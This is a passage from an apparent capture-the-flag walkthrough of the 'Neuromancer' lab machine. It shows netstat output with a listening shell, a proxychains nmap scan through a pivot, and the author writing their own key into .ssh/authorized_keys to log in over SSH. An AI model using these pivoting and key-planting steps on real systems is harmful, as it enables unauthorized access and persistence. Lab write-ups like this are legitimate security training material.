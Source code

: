 >Active Internet connections (servers and established)  
>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name  
>tcp        0      0 0.0.0.0:4450            0.0.0.0:*               LISTEN      1479/sh           
>tcp        0      0 0.0.0.0:34483           0.0.0.0:*               LISTEN      -                 
>tcp        0    125 192.168.111.5:4450      192.168.111.6:58733     ESTABLISHED 1479/sh           
>tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      1107/java         
>tcp6       0      0 :::8009                 :::*                    LISTEN      1107/java         
>tcp6       0      0 :::8080                 :::*                    LISTEN      1107/java         
>tcp6       0      0 :::34483                :::*                    LISTEN      -                 
>udp        0      0 0.0.0.0:68              0.0.0.0:*                           -           
  
Checking the ports open, we see that there is something listening in the port 34483. Let's find out what it is:  
  
root@kali:~# proxychains nmap -sT -sV -Pn 192.168.111.5 -p 34483  
>ProxyChains-3.1 (http://proxychains.sf.net)  
>Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-13 14:09 CDT  
>mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers  
>|S-chain|-<>-127.0.0.1:9050-<><>-192.168.111.5:34483-<><>-OK  
>|S-chain|-<>-127.0.0.1:9050-<><>-192.168.111.5:34483-<><>-OK  
>Nmap scan report for 192.168.111.5  
>Host is up (0.0036s latency).  
>  
>PORT      STATE SERVICE VERSION  
>34483/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
  
Great, a usefull shell. Let's just set up our ssh key and log in.  
  
>mkdir .ssh  
>echo "ssh-rsa AAA....0DFr root@kali" > .ssh/authorized_keys  
  
root@kali:~# proxychains ssh -l ta 192.168.111.5 -p 34483  
>ProxyChains-3.1 (http://proxychains.sf.net)  
>|S-chain|-<>-127.0.0.1:9050-<><>-192.168.111.5:34483-<><>-OK  
> ----------------------------------------------------------------  
>|                Neuromancer Secure Remote Access                |  
>| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |  
> ----------------------------------------------------------------  
>Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)  
>  
> * Documentation:  https://help.ubuntu.com  
> * Management:     https://landscape.canonical.com  
> * Support:        https://ubuntu.com/advantage  
>  
>94 packages can be updated.  
>44 updates are security updates.  
>  
>  
>Last login: Tue Jul  3 21:53:25 2018  
ta@neuromancer:~$   
  